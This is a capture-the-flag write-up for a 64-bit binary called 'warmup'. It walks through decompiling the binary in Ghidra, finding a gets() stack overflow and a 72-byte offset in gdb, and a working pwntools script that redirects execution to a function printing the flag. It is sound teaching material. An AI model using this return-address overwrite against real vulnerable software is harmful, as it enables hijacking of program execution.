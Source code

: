 I first identified the target as a 64-bit ELF executable. Running the binary prints a function address, `0x40060d`, before prompting for input. I then used Ghidra to decompile the binary, which revealed a buffer overflow vulnerability in `main` caused by an unbounded `gets()` call on a 64-byte buffer.

The printed address belongs to the `easy()` function, which contains a `system("cat flag.txt")` call. This function became my target for redirecting execution.

-----

#### **Finding the Offset**

To calculate the offset to the return address, I used `gdb`. After setting a breakpoint after the `gets()` call, I found my input buffer on the stack at address `0x7fffffffde50`. By inspecting the stack frame, I located the saved return address at `0x7fffffffde98`. The difference between these two addresses (`0xde98 - 0xde50`) confirmed the offset is **`0x48`** (72) bytes.

-----

#### **Exploitation**

I wrote a simple exploit script using `pwntools`. The payload was constructed with 72 bytes of padding followed by the address of the `easy()` function (`0x40060d`) in little-endian format.

```python
from pwn import *

target = process('./warmup')

payload = b"A" * 0x48        # 72 bytes of padding
payload += p64(0x40060d)   # Address of easy()

target.sendline(payload)
target.interactive()
```

